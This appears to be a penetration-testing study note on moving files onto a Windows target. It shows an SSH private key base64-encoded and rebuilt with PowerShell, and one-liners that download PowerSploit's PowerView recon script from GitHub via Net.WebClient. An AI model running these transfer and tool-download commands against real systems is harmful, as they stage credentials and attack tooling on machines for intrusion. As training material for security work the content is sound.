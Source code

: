 ## delete


# Attack to Target
## PowerShell Base64 Encode & Decode
**Attack Check SSH Key MD5 Hash**
```bash
$ md5sum id_rsa
```

**Attack Encode SSH Key to Base64**
```bash
$ cat id_rsa |base64 -w 0;echo
```

**Target Paste Base64**
```bash
PS > [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String(""))
```

**Confirming the MD5 Hashes Match**
```bash
PS > Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

## PowerShell Web Downloads
| Method                | Description                                                        |
|-----------------------|--------------------------------------------------------------------|
| OpenRead              | Returns the data from a resource as a Stream.                      |
| OpenReadAsync         | Returns the data from a resource without blocking the calling thread. |
| DownloadData          | Downloads data from a resource and returns a Byte array.           |
| DownloadDataAsync     | Downloads data from a resource and returns a Byte array without blocking the calling thread. |
| DownloadFile          | Downloads data from a resource to a local file.                    |
| DownloadFileAsync     | Downloads data from a resource to a local file without blocking the calling thread. |
| DownloadString        | Downloads a String from a resource and returns a String.           |
| DownloadStringAsync   | Downloads a String from a resource without blocking the calling thread. |

**File Download**
We can specify the class name Net.WebClient and the method DownloadFile with the parameters corresponding to the URL of the target file to download and the output file name.

```bash
PS > (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')


PS > (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```
